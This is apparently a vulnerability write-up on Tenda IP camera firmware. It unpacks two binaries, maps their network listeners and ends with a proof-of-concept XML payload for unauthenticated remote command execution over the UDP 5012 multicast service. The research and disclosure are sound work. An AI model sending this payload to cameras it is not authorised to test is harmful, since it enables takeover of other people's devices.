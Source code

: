 `apollo` and `noodles` are two binaries located inside the Squashfs filesystem
within the app partition in the `abin` folder.
[CVE-2023-23080](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-23080)
exploits a vulnerability in `noodles` on port 1300,
more info on that [here](https://github.com/fxc233/iot-vul/tree/main/Tenda/IPC)

A quick analysis reveals that they are compressed using `upx`:

```terminal
$ grep -a -i upx noodles apollo
noodles:$Info: This file is packed with the UPX executable packer http://upx.sf.net
noodles:$Id: UPX 3.94 Copyright (C) 1996-2017 the UPX Team. All Rights Reserved.
apollo:$Info: This file is packed with the UPX executable packer http://upx.sf.net
apollo:$Id: UPX 3.94 Copyright (C) 1996-2017 the UPX Team. All Rights Reserved.
$ upx -d apollo noodles # uncompress the binaries
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2023
UPX 4.0.2       Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 30th 2023

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
   5429884 <-   1889696   34.80%    linux/arm    apollo
    150072 <-     67596   45.04%    linux/arm    noodles
   --------------------   ------   -----------   -----------
   5579956 <-   1957292   35.08%                 [ 2 files ]

Unpacked 2 files.
```

`apollo` is about 36 times the size of `noodles`, making the latter a good first
candidate to reverse engineer. After decompressing it, it's possible to open it
using `ghidra`.

After a thorough analysis of the code, it's possible to identify three main entities:

1. The `main` function, listening on port TCP 1300
2. The `policy` thread, listening on port UDP 843
3. The `multicast` thread, listening on port UDP 5012

The `main` function has already been exploited in
[CVE-2023-23080](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-23080)

The `policy` thread seems to be simply waiting for the string "policy-file-request"
to which it will respond
`"<?xml version=\"1.0\"?><cross-domain-policy><allow-access-from domain=\"*\" to-ports=\"*\"/></cross-domain-policy>"`
this XML-formatted string is used to define a cross-domain policy that allows
access to the camera from any domain and port.

The `multicast` thread awaits an XML formatted string, similar to the `main`
function, it is possible to achieve unauthenticated remote code execution with
the following string:

```xml
<YGMP_CMD><CMAC></CMAC><TARGET>camera_ip_here</TARGET><MAC>10:20:30:40:50:60</MAC><CMD>touch /tmp/pwn</CMD></YGMP_CMD>
```
